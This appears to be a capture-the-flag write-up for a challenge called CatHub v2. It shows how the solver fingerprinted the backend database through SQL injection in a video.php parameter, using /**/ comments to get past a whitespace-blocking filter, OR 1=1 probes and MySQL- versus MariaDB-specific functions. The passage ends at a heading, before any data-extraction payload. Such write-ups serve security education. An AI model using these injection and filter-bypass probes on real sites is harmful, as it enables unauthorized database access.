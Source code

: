 # CatHub v2 solution step by step

## Step 1. DB syntax comparison

DB Type | LIMIT  | IF     | SLEEP  | OR     | AND    | *      | +      | #      | /**/   | --     |
--------|:------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|
MySQL   |   O    |   O    |   O    | O      |  O     |  O     |  O     | O      |   O    |  O     |
MSSQL   |  TOP   |   O    |  DELAY | O      |  O     |  O     | STRCAT | X      |   O    |  O    |
OracleDB|   ?    |   O    | dbms_lock.sleep(sec) | O      |  O     |  O     |  O     | X      |   X    |  O     |

## Step 2 trial and error to determine DB type

### White space banned (WAF)

`https://edu-ctf.csie.org:10159/video.php?vid=1%20SLEEP(3)` does not work (WAF protection for space characters) --> bad cat!, hence we need to use comment to separate commands. 

### Check function

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/TOP/**/1` --> error!: TOP unusable --> OracleDB(X)

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/DELAY(25)` --> error!: DELAY unusable --> MSSQL(X)
### Check comments where usable ones are # -- /**/ 

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/1=1/**/ljfberwhkfjhwbe`  --> error!: /**/ Usable --> OracleDB(X)

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/1=1#ljfberwhkfjhwbe`  --> no error!: # Usable --> MSSQL(X), PorstgreSQL(X), SQLite(X)

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/1=1--ljfberwhkfjhwbe`  --> no error!: -- Usable

### But is it MySQL or MariaDB?

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/RELEASE_ALL_LOCKS()` --> bad cat!: WAF prevention and this function is MySQL only.
* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/MEDIAN()` --> error!: MariaDB only function.

# Finally we can determine the DB that Kaibro uses is MySQL 

[Function Differences Between MariaDB 10.4 and MySQL 8.0](https://mariadb.com/kb/en/library/function-differences-between-mariadb-104-and-mysql-80/)

### SQL injection in MySQL

